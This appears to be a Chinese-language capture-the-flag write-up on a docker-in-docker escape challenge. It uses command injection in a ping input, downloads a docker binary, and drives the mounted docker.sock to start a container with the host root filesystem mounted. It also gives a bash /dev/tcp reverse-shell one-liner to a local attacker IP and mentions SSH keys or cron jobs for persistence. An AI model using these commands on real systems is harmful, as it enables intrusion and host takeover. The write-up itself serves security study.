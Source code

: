 # DIND (docker-in-docker) exploitation

## Story

![msedge_1snnasL6N1](../images/2023-04/msedge_1snnasL6N1.png)

## Exploitation

输入**127.0.0.1**，从回显中可以知道执行了`ping`命令。

![msedge_wqXGGiw2I6](../images/2023-04/msedge_wqXGGiw2I6.png)

使用`;`或者`&&`执行多行命令。

![msedge_aksvwilKCk](../images/2023-04/msedge_aksvwilKCk.png)

到这里，利用简单的命令执行的绕过，我们已经拿到了该docker的权限。

根据题干，我们可以知道这里存在docker逃逸，执行`;mount`命令查看挂载文件

原先的输出换行弄得不是很好，我们直接看源代码

![msedge_LM2GPRV8AT](../images/2023-04/msedge_LM2GPRV8AT.png)

可以发现挂载了**/custom/docker/docker.sock**，参考这篇[文章](https://blog.csdn.net/weixin_53090346/article/details/129708068#:~:text=造成逃逸的原因是,er中造成逃逸。)里面的**危险挂载Docker Socket逃逸**

> Docker采用的是C/S架构即客户端服务端格式，可以通过以下命令操作目标的docker。
> unix:///var/run/docker.sock
> tcp://host:port
> fd://socketfd
> 造成逃逸的原因是将宿主机的/var/run/docker.sock文件挂载到docker容器中，导致docker容器中可以操作宿主机的docker，进而能新创建docker从而将根目录挂载到新创建的docker中造成逃逸。

通过容器中挂载的**docker.sock**与宿主机的`docker`命令进行通信，从而控制宿主机的`docker`命令。

但是前提是我们需要一个可执行的二进制`docker`文件。

```
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz

;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

现在我们可以利用挂载的**docker.sock**与宿主机进行通信了

```
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![msedge_5RgZ6XNQbY](../images/2023-04/msedge_5RgZ6XNQbY.png)

可以看到，有很多的镜像，但是到这里还不算完，我们这里仅仅是获取宿主机`docker`命令的权限，我们的目标是获取宿主机的权限。

现在我们可以利用宿主机docker命令的权限去创建一个新容器，并让这个容器的目录挂载到宿主机的目录，从而通过写文件的方式去RCE。

下载一个centos镜像

```
;/tmp/docker/docker -H unix:///custom/docker/docker.sock pull centos
```

![msedge_drcOGDJtcB](../images/2023-04/msedge_drcOGDJtcB.png)

做到这里，我发现这样执行效率也太低了，索性弹个shell出来。

```
bash -c "bash -i >& /dev/tcp/192.168.215.133/2333 0>&1"
```

kali这边接收shell

![vmware_2KXEVpu2F4](../images/2023-04/vmware_2KXEVpu2F4.png)

运行容器挂载目录

```
;/tmp/docker/docker -H unix:///custom/docker/docker.sock run -v /:/hack -i centos:latest /bin/bash
```

![vmware_4VCrGjQeku](../images/2023-04/vmware_4VCrGjQeku.png)

这时候可以获取宿主机的文件权限了，我们这边可以做的事情很多，无论SSH免密登录还是写入计划任务都是可以的。



